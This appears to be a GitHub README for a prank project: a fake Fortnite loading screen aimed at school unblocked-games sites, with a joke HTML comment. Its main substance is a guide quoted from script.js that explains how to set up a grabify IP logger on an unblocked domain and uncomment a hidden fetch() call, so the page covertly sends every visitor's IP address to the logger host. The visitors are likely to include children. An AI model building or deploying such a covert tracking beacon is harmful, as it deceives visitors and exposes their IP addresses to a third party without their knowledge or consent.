 # maybe-forknight
In slang, a troll is a person who posts or makes inflammatory, insincere, digressive, extraneous, or off-topic messages online, or in real life, with the intent of provoking others into displaying emotional responses, or manipulating others' perception, thus acting as a bully or a provocateur.

troll'd

faux implemtation of the forknight loading screen, for your unblocked games site.

pls give credit(required as part of license, must be put when linking. DO NOT CLAIM THIS AS YOURS, or else i WILL file a takedown request.), this was orginally meant for 3kh0.github.io
```html
    <!--
        Hello there, small child. Do you want some free candy?
        ------------------------------------------------------
        Jokes aside, this is literally just a clone of the forknight loading screen, and everything seems real...
        
        a gnome is a small humanoid creature that lives underground.
        they are known for their ability to mine gems and precious metals.
        they are also known for their ability to steal your diamonds.
        The famous youtuber Dream has a pet gnome named GeorgeNotFound.
        GeorgeNotFound is a gnome that lives in a hole in the ground.
        He is known for his ability to steal diamonds from other players.
        He is also known for his ability to mine gems and precious metals.
           "You've been gnomed!" - GeorgeNotFound, 2021
                                            ^ satire, not true
    -->
```
 [index.html](index.html)
 ## Logging IP ADDRESSES
 Quoting from [script.js](script.js):
 ```javascript
     /*
    GUIDE FOR ACTUALLY LOGGING IP ADDRESSES
    I, @aeiea, do not condone for any harm or illegal activities done with the information provided, and withdraw all responsibility for all damages.
        
    Now, with the legal stuff out of the way, let me show you how to log IPs.
    1: generate a grabify.link logger. you can use any site.
    2: Find a subdomain that is unblocked.
    3: set that to the subdomain.
    You should have a link somewhat like this:
    https:// [blahblah] . [blah] / [blah]
    EG:
    https://shrekis.life/HA7V54N
    Now: 
    Uncomment line 91 or smth(which should look like // fetch('{PUT GRABIFY LINK HERE}');)
    by removing the double-slash('//'), and replace the '{PUT GRABIFY LINK HERE}' with your grabify link.
    
    it should look like:
    fetch('https://shrekis.life/HA7V54N');
    */
 ```
